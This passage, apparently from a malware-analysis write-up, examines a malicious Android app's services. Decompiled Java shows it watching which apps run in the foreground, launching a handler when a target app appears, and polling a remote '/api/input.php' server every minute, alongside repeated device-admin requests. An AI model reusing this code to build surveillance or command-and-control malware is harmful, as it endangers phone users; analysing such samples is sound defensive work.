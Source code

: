* First, a service named `MasterInterceptor` (quite suspicious) is launched
* A repeated task is configured, doing its job every minute ( `i` is equal to 60, and in the manifest, the meta-data `timer` is also `<meta-data android:name="timer" android:value="i60"/>`
* The routine `eba` is called, continuously asking for administration privileges 

Let's take a closer look

### MasterInterceptor

The routine `onStartService` only returns `Service.START_REDELIVER_INTENT`, but in `onCreate`, an asynchronous task is launched, iterating over active packages :

> ```java
>String[] getActivePackages(){
>	HashSet<String> localHashSet = new HashSet<>();
>	for (ActivityManager.RunningAppProcessInfo localRunningAppProcessInfo : ((ActivityManager) getSystemService(ACTIVITY_SERVICE)).getRunningAppProcesses()) {
>		if (localRunningAppProcessInfo.importance == 100) {
>			localHashSet.addAll(Arrays.asList(localRunningAppProcessInfo.pkgList));
>		}
>	}
>	return localHashSet.toArray(new String[localHashSet.size()]);
>}
>
>String[] getActivePackagesCompat(){
>	return new String[] { ((ActivityManager)getSystemService(ACTIVITY_SERVICE)).getRunningTasks(1).get(0).topActivity.getPackageName() };
>}
> ```

Each package name is then compared against a value put in preferences, and if there is a match, the service `GlobalCode` is launched :

> ```java
>Intent localIntent = new Intent(getApplicationContext(), GlobalCode.class);
>localIntent.putExtra("content", localMap.get(str));
>localIntent.putExtra("type", "start");
>localIntent.putExtra("data", "");
>startService(localIntent);
> ```

### MasterTimer

The class `MasterTimer` is a `BroadcastReceiver`, repeating a task every minute:

> ```java
>public void onReceive(Context paramContext, Intent paramIntent){
>	String str = "";
>	try{
>		ApplicationInfo localApplicationInfo = paramContext.getPackageManager().getApplicationInfo(paramContext.getPackageName(), 128);
>		if (localApplicationInfo.metaData != null) {
>			str = localApplicationInfo.metaData.getString("domain");
>		}
>	}
>	catch (PackageManager.NameNotFoundException e){
>		e.printStackTrace();
>	}
>	this.intent = new Intent(paramContext, GlobalCode.class);
>	this.intent.putExtra("content", "http://" + str + "/api/input.php");
>	this.intent.putExtra("type", "Master");
>	this.intent.putExtra("data", "");
>	paramContext.startService(this.intent);
>}
>```
